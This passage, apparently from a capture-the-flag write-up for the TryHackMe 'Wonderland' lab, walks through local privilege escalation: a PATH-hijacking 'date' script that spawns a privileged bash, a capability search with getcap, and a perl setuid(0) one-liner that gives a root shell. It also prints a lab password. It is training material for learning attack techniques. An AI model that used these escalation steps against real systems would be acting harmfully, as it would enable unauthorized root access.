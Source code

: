 ![screenshot](https://github.com/divu050704/assets-holder/raw/main/tryhackme-screenshots/14.png)

- Created a shell file named date with our payload in /tmp directory.

```shell
#!/bin/bash
/bin/bash -p
```
- Added `/tmp` to `PATH`, and give the execution rights

```console
rabbit@wonderland:/tmp$ export PATH="/tmp:$PATH"
rabbit@wonderland:/tmp$ chmod +x date
```
- Execute the SUID, and got the shell as hatter

```console
rabbit@wonderland:/tmp$ /home/rabbit/teaParty
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/tmp$
```

## Privilege Escalation(root)
- Checked for capabilities and found `perl` as `cap_setuid_ep`

```console
rabbit@wonderland:~$ getcap -r / 2>/dev/null
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```
- Checked `gtfobins`, and found an exploit

```console
hatter@wonderland:/home/hatter$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'
bash: /usr/bin/perl: Permission denied
```

- That might be because we don't have complete rights on ssh as `alice`, got credential in `/home/hatter/password.txt`

```console
hatter@wonderland:/home/hatter$ ls
password.txt
hatter@wonderland:/home/hatter$ cat password.txt
WhyIsARavenLikeAWritingDesk?

```
- Now executed the exploit and we are root

```console
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'
root@wonderland:~# whoami
root
```
